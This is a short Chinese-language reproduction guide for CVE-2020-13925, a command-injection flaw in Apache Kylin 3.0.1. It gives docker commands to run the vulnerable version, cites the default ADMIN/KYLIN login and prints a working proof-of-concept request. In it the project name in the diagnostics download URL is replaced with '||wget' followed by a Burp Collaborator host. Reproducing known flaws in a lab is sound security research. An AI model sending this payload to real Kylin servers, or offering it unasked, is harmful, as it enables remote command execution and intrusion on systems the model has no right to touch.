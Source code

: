# CVE-2020-13925

### 环境搭建


参考 [https://github.com/apache/kylin](https://github.com/apache/kylin) 使用docker进行环境部署，修改其中的版本为3.0.1（存在漏洞的版本）。可以去除 【-m 8G \ 】它的作用是分配内存的大小。


然后访问 [http://host:7070/kylin/login](http://127.0.0.1:7070/kylin/login) 初始用户名和密码是 `ADMIN/KYLIN`。

```bash
docker pull apachekylin/apache-kylin-standalone:3.0.1

docker run -d \
    -m 8G \
    -p 7070:7070 \
    -p 8088:8088 \
    -p 50070:50070 \
    -p 8032:8032 \
    -p 8042:8042 \
    -p 16010:16010 \
    apachekylin/apache-kylin-standalone:3.0.1
    
docker run -d \
    -p 7070:7070 \
    -p 8088:8088 \
    -p 50070:50070 \
    -p 8032:8032 \
    -p 8042:8042 \
    -p 16010:16010 \
    apachekylin/apache-kylin-standalone:3.0.1
```


### 漏洞验证PoC


```python
原始请求：
http://host:port/kylin/api/diag/project/learn_kylin/download
        
PoC请求，GET方法：
http://host:port/kylin/api/diag/project/%7c%7cwget%20h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net%7c%7c/download

即将项目名称“learn_kylin”替换为如下payload访问即可：
||wget h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net||
```


### 复现步骤

访问 System-Configuration-Diagnosis。触发下载诊断信息的请求 [http://host:port/kylin/api/diag/project/learn_kylin/download](http://120.76.179.151:7070/kylin/api/diag/project/learn_kylin/download)
![image.png](image/111.png)

即将项目名称“learn_kylin”替换为如上payload访问即可。


![image.png](image/222.png)

### 参考链接

https://mp.weixin.qq.com/s/LdEgENX2_b8tb12n4H9KJQ